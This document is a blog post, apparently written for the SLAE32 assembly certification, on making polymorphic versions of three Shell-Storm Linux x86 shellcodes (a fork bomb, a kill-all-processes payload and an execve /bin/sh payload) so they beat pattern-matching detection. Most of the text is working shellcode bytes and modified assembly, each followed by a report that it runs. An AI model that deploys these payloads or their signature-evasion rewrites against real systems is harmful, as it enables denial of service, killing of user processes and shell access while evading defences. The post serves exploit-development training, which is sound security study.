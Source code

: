```yaml
---
layout: page
title: Polymorphic Shellcodes- SLAE32 Sixth Exam Assignment
permalink: /polymorphic/
---
```


## Introduction
Hello Everyone!
This blog post is dedicated to Assignment 6 of the SLAE32 Exam, which is to create 3 different polymorphic shellcodes from shell-storm.


<p align="center"> 
<img src="https://raw.githubusercontent.com/NagliNagli/naglinagli.github.io/master/images/polymorph.jpg">
</p>

## Assignment 6 - Creating polymorphic shellcodes from Shell-Storm


There are 2 main instructions provided to us in this assignment:
- [ ] Pick 3 shellcode samples from Shell-Storm and create polymorphic versions of them to beat pattern matching
- [ ] The polymorphic version cannot be larger than 150% of the existing shellcode

The 3 payloads which i have decided to focus on are:

- [ ] x86/forkbomb
- [ ] x86/killps
- [ ] x86/execve_bin/sh 

## forkbomb Shellcode

In computing, a fork bomb is a denial-of-service attack wherein a process continually replicates itself to deplete available system resources, slowing down or crashing the system due to resource starvation.

![forkbomb](/images/forkbomb.png)

The original shellcode length is 7 bytes, and is presented below:

```c
"\x6a\x02\x58\xcd\x80\xeb\xf9"
```

The original forkbomb.nasm code:

```c
/* By Kris Katterjohn 8/29/2006
 *
 * 7 byte shellcode for a forkbomb
 *
 *
 *
 * section .text
 *
 *      global _start
 *
 * _start:
 *      push byte 2
 *      pop eax
 *      int 0x80
 *      jmp short _start
 */
```

I have decided to change the code to the following:

```c
section .text

    global _start

_start:
	xor eax, eax
	inc eax
	inc eax
        push eax
   	pop eax
      	int 0x80
        jmp short _start
```

Now , i have to check my new shellcode length, and to see that i didn't exceed the req's of 150% maximum (which is >=11)

The new shellcode:
```c
\x31\xc0\x40\x40\x50\x58\xcd\x80\xeb\xf6
```

Which is as we can see 10 bytes long, now let's check if the fork bomb still work's properly.

![polyfork](/images/polyfork.png)

And it is indeed working! we can see how the CPU is being flooded to 100% usage!

## killps Shellcode

The following shellcode will kill all running process within the system.

The original shellcode length is 11 bytes, and is presented below:

```c
 "\x31\xc0\xb0\x25\x6a\xff\x5b\xb1\x09\xcd\x80" 
```

The original killps.nasm code:

```c
Title  : kill all running process 
Name   : 11 bytes sys_kill(-1,9) x86 linux shellcode
Date   : may, 31 2010
Author : gunslinger_
Web    : devilzc0de.com
blog   : gunslingerc0de.wordpress.com
tested on : ubuntu linux
*/
#include <stdio.h>

char *killer=
 "\x31\xc0"                    /* xor    %eax,%eax */
 "\xb0\x25"                    /* mov    $0x25,%al */
 "\x6a\xff"                    /* push   $0xffffffff */
 "\x5b"                        /* pop    %ebx */
 "\xb1\x09"                    /* mov    $0x9,%cl */
 "\xcd\x80"                    /* int    $0x80 */
```

I have decided to change the code to the following:

```c
section .text

    global _start

_start:
	sub eax, eax
	mov al, 0x23
	inc al
	inc al
	push 0xffffffff
	pop ebx
	mov cl, 0x9
	int 0x80
```

Now , i have to check my new shellcode length, and to see that i didn't exceed the req's of 150% maximum (which is >=17)

The new shellcode:
```c
"\x29\xc0\xb0\x23\xfe\xc0\xfe\xc0\x6a\xff\x5b\xb1\x09\xcd\x80"
```

Which is as we can see 15 bytes long, now let's check if the killps shellcode still work's properly.

![killps](/images/killps.gif)

And it is indeed working! we can see how we are being kicked out frm the system

## execve /bin/sh

The following shellcode will execbute /bin/sh.

The original shellcode length is 23 bytes, and is presented below:

```c
 ""\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"; 
```

The original execve.nasm code:

```c
xor    %eax,%eax
push   %eax
push   $0x68732f2f
push   $0x6e69622f
mov    %esp,%ebx
push   %eax
push   %ebx
mov    %esp,%ecx
mov    $0xb,%al
int    $0x80
```

I have decided to change the code to the following:

```c
global _start

section .text

_start:
	sub eax, eax
	push eax
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	inc eax
	dec eax
	push eax
	push ebx
	mov ecx, esp
	mov al, 0xa
	inc al
	int 0x80
```

Now , i have to check my new shellcode length, and to see that i didn't exceed the req's of 150% maximum (which is >=17)

The new shellcode:
```c
""\x29\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x40\x48\x50\x53\x89\xe1\xb0\x0a\xfe\xc0\xcd\x80""
```

Which is as we can see 27 bytes long, now let's check if the execve shellcode still work's properly.

![27execve](/images/27execve.png)

And it is indeed working! we can see how we are executing the /bin/sh!

And that's it for the sixth assignment!

## References

* forkbomb explanation - 
* forkbomb - <https://en.wikipedia.org/wiki/Fork_bomb>
* killps - <http://shell-storm.org/shellcode/files/shellcode-626.php>
* execve_bin/sh - <http://shell-storm.org/shellcode/files/shellcode-827.php>

## Wrap-Up
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification

<https://www.pentesteracademy.com/course?id=3>

Student ID: SLAE - 1543

All the source code which i have used throughout the assignment is available here: <https://github.com/NagliNagli/SLAE/tree/master/Polymorphic>

Cheers,
Gal.
